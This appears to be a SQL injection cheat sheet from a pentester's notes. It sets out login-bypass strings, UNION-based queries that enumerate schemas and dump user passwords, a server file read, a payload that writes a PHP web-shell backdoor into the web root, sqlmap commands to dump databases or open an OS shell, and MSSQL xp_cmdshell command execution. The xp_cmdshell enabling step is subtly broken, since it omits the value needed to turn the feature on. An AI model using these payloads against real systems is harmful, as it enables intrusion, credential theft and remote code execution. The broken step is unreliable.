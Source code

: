 # SQL Injection

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve.

## Identifying SQLi

First of all we need to find locations where data might pass through a DB (logins, comments..) and try to use special SQL characters in order to see how the application responds (we look for SQL syntax errors). Example:

#### Using single quote (')
```bash
#Normal query from a login form:
SELECT * FROM Users WHERE login = '$username' and password = '$password';
#Given a login form we can try to inject a single quote in order to make a sql syntax error.
#Modified query that will display syntax error:
SELECT * FROM Users WHERE login = ''' and password = 'mypassword';
```
_____

## Bypass Authentication

The classic SQLi example. By providing the following input in the user input we can bypass the login of a website:

```bash
#Input used + SQL final result (condition is true because 1=1):
user' or 1=1;#
SELECT * FROM users WHERE username = 'user' or 1=1;
```

The above example will display all rows in the users database. However, there are applications that will generate an error since the logic of the program is to retrieve only one. We can bypass this by appending the LIMIT in the end of the query string in order to only display one:

```bash
user' or 1=1 LIMIT 1;#
```

### SQLi into a register form

We can try to create the following user and then log in to see if we get anything interesting:

```bash
username' or 1=1-- -
password: whatever
#Then try to log in with the above username/password.
```

_____

## Enumerating the DB

Take this as an example of a new SQL query:

```SQL
$query = "SELECT id, name, grade FROM reviews WHERE id=". _GET['id'];
```

The URL will be something like the following:

```php
.php?id='
```

We can test the single quote (') again in order to verify if we get a syntax error.

#### Column Enumeration

The "ORDER BY" statement can help us to enumerate how many columns are used in the query string.  If there is at least 'n' columns in the query, the query is valid and the page will render without errors.

```php
<!-- Start changing n to 1 and increment by 1 until there is an error:-->
php?id=1 order by n
```

Once identified how many columns the query is using, we need to know which ones are displayed in the webpage. To achieve this we can use the union statement:

```bash
#In our example there are 3 columns:
php?id=1 union select 1,2,3
#This will display a number (1, 2 and 3) on the columns.
```

#### Extracting Data

Imagine only columns 2 and 3 are being displayed in the website. We can use SQLi to extract data from the database:

```bash
#These examples are made for MariaDB, this could change depending on the software used.
#SQL Version
php?id=1 union all select 1, 2, @@version
#Database user (don't use ;):
php?id=1 union all select 1, 2, user();
#Information schema. It stores information about the database, like table and column names:
php?id=1 union all select 1, 2, table_name from information_schema.tables
#Column names from a specific table (users):
php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
#"Users" table column data:
php?id=1 union all select 1, username, password from users
```

#### Columns with a given name

Select DB, Table that contains a given string:

**Oracle DB:**
```bash
#Change $STRING with: PASSWD, PASSWORD, USERANME...
SELECT OWNER, TABLE_NAME FROM ALL_TAB_COLUMNS WHERE column_name LIKE '%$STRING%';
```
_____

## SQLi to RCE

SQLi can be used to read and write files on the underlying OS (not always).

#### Read file from the server:

```bash
php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

#### Write file on the server:

```bash
#This can output some errors, but the file should be created
php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

_____

## SQLMap:
```bash
#TARGET should have the vulnerable parameter:
http://something.com/file.php?id=1
#Common uses
sqlmap -u $TARGET --dbs
sqlmap -u $TARGET -D $DATABASE --tables
sqlmap -u $TARGET -D $DATABASE -T $TABLE --columns
sqlmap -u $TARGET -D $DATABASE -T $TABLE -C $COLUMN1,$COLUMN2 --dump
#Take a look at cookies sent in the request, maybe should add --cookie="$COOKIE"
```

Common flags:

| **Flag**   | **Description**                            |
|------------|--------------------------------------------|
|--cookie    | HTTP Cookie header value                   |
|--dbs       | List DBS names                             |
|--tables    | Enumerate DBMS database tables             |
|--columns   | Enumerate DBMS database table columns      |
|-D          | DBMS database to enumerate                 |
|-C          | DBMS database table column(s) to enumerate |
|--dump      | Dump DBMS database table entries           |
|--dbms=mysql| Set backend type (change mysql)            |
|--os-shell  | Execute a remote command shell on target system|


https://afrjcict.net/wp-content/uploads/2019/03/Vol12No1paper6journalformatDIRECT-pagenumber.pdf

_____ 

## MSSQL enable XP_CMDSHELL

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell';
RECONFIGURE;

# Execute commands:
EXEC master..xp_cmdshell 'whoami';
EXEC xp_cmdshell 'ipconfig'; //without master.. still wokrs.
```
